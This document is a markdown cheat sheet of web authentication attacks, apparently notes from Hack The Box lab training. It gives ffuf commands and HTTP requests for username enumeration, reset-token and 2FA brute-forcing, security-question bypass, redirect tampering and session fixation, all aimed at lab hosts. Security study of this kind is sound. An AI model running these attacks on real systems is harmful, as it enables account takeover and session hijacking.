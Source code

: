 # Authentication Vulnerabilities
## Login Forms
### Enumerating Users
1. Test to see if you get different error messages when providing a valid username & invalid password, compared to providing both invalid username & invalid password. 
	- If you do get different errors, you can enumerate usernames (can also do this on the register form):
```shell
ffuf -w xato-net-10-million-usernames.txt -u http://www.trilocor.local/login.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "username=FUZZ&password=invalid" -fr "Unknown user"
```
#### Test Default Credentials
1. First, identify the software being used
2. Lookup software to see if it uses default password and what they are 
	- List of default credentials for softwares: (https://github.com/danielmiessler/SecLists/tree/master/Passwords/Default-Credentials)
3. Test passwords on the usernames found from previous step
#### Brute-Force Password Reset Tokens (else move to next section)
Once a username is found, try to reset their password, and check if it asks to supply a reset token for that user. If so, brute-force the reset token:
```shell
seq -w 0 9999 > tokens.txt
```
```shell
ffuf -w tokens.txt -u http://www.trilocor.local/reset_password.php?token=FUZZ -fr "The provided token is invalid"
```
- If it isn't displayed in the URL, refer to previous `ffuf` command and send as POST data
##### If a security prompt/question is required to reset a password:
```http
POST /security_question.php HTTP/1.1
Host: pwreset.htb
Content-Length: 43
Content-Type: application/x-www-form-urlencoded
Cookie: PHPSESSID=39b54j201u3rhu4tab1pvdb4pv

security_response=London&username=htb-stdnt
```

We can try to change the request to directly just skip the prompt and change the password:
```http
POST /reset_password.php HTTP/1.1
Host: pwreset.htb
Content-Length: 32
Content-Type: application/x-www-form-urlencoded
Cookie: PHPSESSID=39b54j201u3rhu4tab1pvdb4pv

password=P@$$w0rd&username=admin
```

#### Brute-Force 2FA Codes
After gaining credential pair, if you need a 2FA code, you can attempt to brute force this as well:
```shell
ffuf -w tokens.txt -u http://www.trilocor.local/2fa.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -b "PHPSESSID=0sm6tj93knc494ulmtaiglc6n9" -d "otp=FUZZ" -fr "Invalid 2FA Code" -t 60
```
- If this doesn't work, intercept the request for this page in Burp, send to repeater, change the request to a `GET` request and change the destination to the users profile (e.g. `profile.php` or the admin interface `admin.php`)
## Unauthorized Pages
### `302` Redirected / Targeting Restricted Pages
Any time you get a `302` redirect (or redirected in general) while attempting to access a page:
1. Intercept the request in Burp
2. Right-click and select `Do intercept` -> `Response to this request`
3. Forward request and change the status code from `302 Found` to `200 OK` in the response
4. Forward the response and check browser to see if the page displayed
### Not Authorized to Other Pages While Logged In
If you're logged in and trying to gain access to a page (`/admin`) but are unauthorized, try:
1. Remove your `uid` (or other form of identification) from our request to `/admin`
2. If you are sent back to the login screen and have the same `PHPSESSID` cookie, we can assume the parameter `uid` is related to authentication
3. Brute-force the `uid` of the admin to gain access to the page
## Weak / Predictable Session Tokens
If you see a weak / predictable session token / cookie, you can:
1. Brute force it if it is weak / short, or;
2. Decrypt it and analyze its encryption mechanism, then change the info that it is encrypting to admin
## Session tokens aren't unique to each session
If your session cookie value doesn't change AFTER signing in:
1. Obtain a valid session token by signing in (ex: `sid=a1b2c3d4e5f6`)
2. Log out
3. Send the victim a link with your session token (ex: `http://vulnerable.htb/?sid=a1b2c3d4e5f6 )
	- When they click the link, their session cookie is now this value
4. Now attempt to access a resource you would access when you're logged in with the same session token to hijack the victim's session
